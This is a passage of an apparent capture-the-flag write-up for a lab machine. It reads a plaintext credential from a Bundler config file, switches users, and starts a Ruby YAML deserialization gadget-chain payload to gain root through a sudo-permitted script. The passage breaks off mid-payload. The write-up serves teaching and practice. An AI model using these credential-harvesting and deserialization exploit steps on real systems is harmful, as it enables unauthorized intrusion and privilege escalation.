 We access `.bundle` and find the following file.

```bash
ruby@precious:~/.bundle$ ls
config
```

This file contains credentials for the user Henry.

```bash
ruby@precious:~/.bundle$ cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

```bash
ruby@precious:~/.bundle$ su henry
password:
henry@precious:~/.bundle cat /home/henry/user.txt
ce7995181ee948############
```

## PRIVILEGE ESCALATION
---
The first thing we do after switching to the Henry user is check for sudo privileges.

```bash
sudo -l
```

```bash
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

We can run `update_dependencies.rb` with Ruby. Let's execute it to see what we can do.

```bash
henry@precious:/tmp$ sudo /usr/bin/ruby /opt/update_dependencies.rb
Traceback (most recent call last):
	2: from /opt/update_dependencies.rb:17:in `<main>'
	1: from /opt/update_dependencies.rb:10:in `list_from_file'
/opt/update_dependencies.rb:10:in `read': No such file or directory @ rb_sysopen - dependencies.yml (Errno::ENOENT)
```

Since it can't find `dependencies.yml`, we can craft a payload that executes commands as root. The information can be found here: [Deserialization](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md).

To escalate privileges, create a `dependencies.yml` file in `/tmp` with the following payload.

```bash
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
```